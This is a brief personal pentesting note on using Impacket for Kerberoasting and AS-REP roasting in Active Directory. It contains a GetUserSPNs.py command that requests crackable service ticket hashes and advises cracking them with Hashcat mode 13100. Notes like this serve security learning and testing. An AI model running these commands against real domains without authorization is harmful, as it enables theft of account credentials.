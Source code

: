 # Using Impacket

author:: Nathan Acks  
date:: 2021-12-06

# Kerberoasting

Impacket can identify kerberoastable accounts and dump packets remotely. It comes standard with Kali Linux.

```bash
python3 \
	/usr/share/doc/python3-impacket/examples/GetUserSPNs.py \
	${DOMAIN}/${USER}:${PASSWORD} \
	-dc-ip $DOMAIN_CONTROLLER_IP -request
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

* [Kerberos](kerberos.md)
* [Using Hashcat](hashcat.md)

# AS-REP Roasting

Impacket (via GetNPUsers.py) support AS-REP roasting. However, GetNPUsers.py requires that user accounts already be enumerated and roastable accounts identified.

When using GetNPUsers.py, specify the target as `${DOMAIN}/` (i.e., leave off the user-part).
